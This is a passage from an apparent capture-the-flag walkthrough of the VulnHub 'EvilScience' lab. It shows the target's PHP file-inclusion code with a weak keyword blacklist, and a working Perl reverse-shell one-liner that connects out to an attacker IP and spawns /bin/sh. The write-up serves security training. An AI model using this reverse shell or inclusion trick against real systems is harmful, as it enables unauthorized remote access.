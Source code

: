 Also, not quite the PHP code I imagined but close.

```php
# ./cmd.sh -e "cat index.php"
<?php
    $file = $_GET["file"];

    $file = str_ireplace("etc","", $file);
    $file = str_ireplace("php:","", $file);
    $file = str_ireplace("expect:","", $file);
    $file = str_ireplace("data:","", $file);
    $file = str_ireplace("proc","", $file);
    $file = str_ireplace("home","", $file);
    $file = str_ireplace("opt","", $file);

if ($file == "/var/log/auth.log") {
    header("location: index.php");
} else {
    include($file);
}
    include($file);
?>
```

Awesome. Now that I can execute remote commands, it's reverse shell time. I always liked my reverse shell in Perl whenever it's available on the target system.

```perl
perl -e 'use Socket;$i="192.168.198.128";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`
```

To avoid complications, it's best to `urlencode()` the above and then spawn a pseudo-tty for optimal output control.

![shell](/assets/images/posts/evilscience-walkthrough/evilscience-9.png)

I got shell!

### Privilege Escalation

During enumeration, I noticed that user `evilscience` was able to `sudo` as `root` as shown by `.sudo_as_admin_successful`.


[1]: https://www.vulnhub.com/entry/the-ether-evilscience-v101,212/
[2]: https://www.vulnhub.com/
[3]: https://httpd.apache.org/docs/2.4/mod/core.html#documentroot
[4]: https://github.com/danielmiessler/SecLists